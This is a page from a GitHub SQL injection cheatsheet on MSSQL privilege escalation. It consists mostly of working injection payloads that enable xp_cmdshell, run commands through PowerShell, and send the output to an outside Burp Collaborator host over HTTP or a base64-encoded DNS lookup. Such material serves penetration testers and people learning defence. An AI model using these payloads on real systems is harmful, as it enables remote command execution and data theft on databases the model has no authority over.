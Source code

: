

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation%20-%20MSSQL#mssql-privilege-escalation)

## Blind RCE

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation%20-%20MSSQL#blind-rce)

First we have to enable xp_cmdshell:

```sql
; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE;--
```

Now we execute command and getting the output on our Burp Collaborator:

```sql
;EXEC xp_cmdshell ‘powershell -c “$x = whoami; curl http://my-burp-link.burpcollaborator.net/get?output=$x"';--
```

## The harder approach

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation%20-%20MSSQL#the-harder-approach)

The following command enabled xp_cmdshell, and executes a simple powershell command and get the executed command response in DNS request.

```
random';EXEC sp_configure 'show advanced options', 1; EXEC sp_configure 'xp_cmdshell', 1; reconfigure with override; exec master..xp_cmdshell 'powershell $cmd=whoami;  $enc=[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($cmd)).trim(''=''); ping -n 1 $enc''.mysubdomainhere.burpcollaborator.net'' '-- -

```

If successfully, on Collaborator you will see:

[![burp_collaborator](https://user-images.githubusercontent.com/82765761/123510494-5fc2b880-d695-11eb-9f0c-7c4c2f005aa5.png)](https://user-images.githubusercontent.com/82765761/123510494-5fc2b880-d695-11eb-9f0c-7c4c2f005aa5.png)

### Reference

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Privilege%20Escalation%20-%20MSSQL#reference)

[https://github.com/man1pulator/pentest_diary](https://github.com/man1pulator/pentest_diary)